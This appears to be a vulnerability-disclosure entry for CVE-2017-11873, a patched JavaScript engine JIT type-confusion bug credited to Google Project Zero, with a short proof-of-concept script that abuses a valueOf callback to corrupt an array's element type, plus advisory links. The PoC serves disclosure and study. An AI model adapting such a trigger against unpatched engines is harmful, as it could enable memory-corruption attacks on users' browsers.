 # CVE-2017-11873

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(a, b, v) {
    if (b.length < 1)
        return;

    for (let i = 0; i < a.length; i++)
        a[i] = v;

    b[0] = 2.3023e-320;
}

function main() {
    for (let i = 0; i < 1000; i++) {
        opt(new Uint8Array(100), [1.1, 2.2, 3.3], {});
    }

    let a = new Uint8Array(100);
    let b = [1.1, 2.2, 3.3];
    opt(a, b, {
        valueOf: () => {
            b[0] = {};
            return 0;
        }
    });

    print(b[0]);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11873)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1357)
